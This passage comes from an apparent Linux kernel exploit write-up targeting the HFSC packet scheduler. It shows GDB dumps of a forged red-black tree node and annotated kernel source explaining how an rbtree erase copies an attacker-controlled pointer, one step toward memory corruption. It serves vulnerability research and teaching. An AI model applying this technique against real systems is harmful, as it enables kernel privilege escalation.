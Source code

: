 Inspecting Evil Grandpa in GDB, we can confirm it points 0x10 bytes before a page vector:

```c {linenos=false}
gef➤  x/40gx 0xffff88810a6d1bf0 // E
0xffff88810a6d1bf0:	0x0000000000000000	    0x0000000000000000
0xffff88810a6d1c00:	0xffff888121326000 ***	0xffff888121325000
0xffff88810a6d1c10:	0xffff888121327000	    0xffff888121328000
0xffff88810a6d1c20:	0xffff888121329000	    0xffff88812132a000
0xffff88810a6d1c30:	0xffff88812132b000	    0xffff88812132c000
0xffff88810a6d1c40:	0xffff88812132d000	    0xffff88812132e000
```

And that its `rb_left` child corresponds to the address of the first page in the vector:

```c {linenos=false}
gef➤  p *(struct rb_node *)0xffff88810a6d1bf0 // E
$66 = {
    __rb_parent_color = 0x0,
    rb_right = 0x0 <fixed_percpu_data>,
    rb_left = 0xffff888121326000 *** // TARGET
}
```

**@step(7): Ptr copy (2/3): Trigger a RBTree update**

Now, by changing class 2:2, we trigger a tree update. In kernel space, we have the following chain of calls: `hfsc_change_class() -> update_el() -> eltree_update()`. 

The [eltree_update()](https://elixir.bootlin.com/linux/v6.6.90/source/net/sched/sch_hfsc.c#L213) function is defined as follow:

```c
static inline void
eltree_update(struct hfsc_class *cl)
{
	eltree_remove(cl); // Remove the class from the tree
	eltree_insert(cl); // Then re-inserts it
}
```

[eltree_remove()](https://elixir.bootlin.com/linux/v6.6.90/source/net/sched/sch_hfsc.c#L204) calls [rb_erase()](https://elixir.bootlin.com/linux/v6.6.90/source/lib/rbtree.c#L440) which in turn calls [__rb_erase_augmented()](https://elixir.bootlin.com/linux/v6.6.90/source/include/linux/rbtree_augmented.h#L224) to delete the node from the tree:

```c
static __always_inline struct rb_node *
__rb_erase_augmented(struct rb_node *node, struct rb_root *root,
             const struct rb_augment_callbacks *augment)
{
    struct rb_node *child = node->rb_right; // child = C->rb_right = 0
    struct rb_node *tmp = node->rb_left; // tmp = C->rb_left = 0
    struct rb_node *parent, *rebalance;
    unsigned long pc;

    if (!tmp) {
        pc = node->__rb_parent_color; // pc = C->__rb_parent_color = P
        parent = __rb_parent(pc); // parent = P
        __rb_change_child(node, child, parent, root); // WRITE_ONCE(P->rb_right, 0) [1]
        if (child) {
            child->__rb_parent_color = pc;
            rebalance = NULL;
        } else
            rebalance = __rb_is_black(pc) ? parent : NULL;
        tmp = parent;
    }
    // ...
}
```
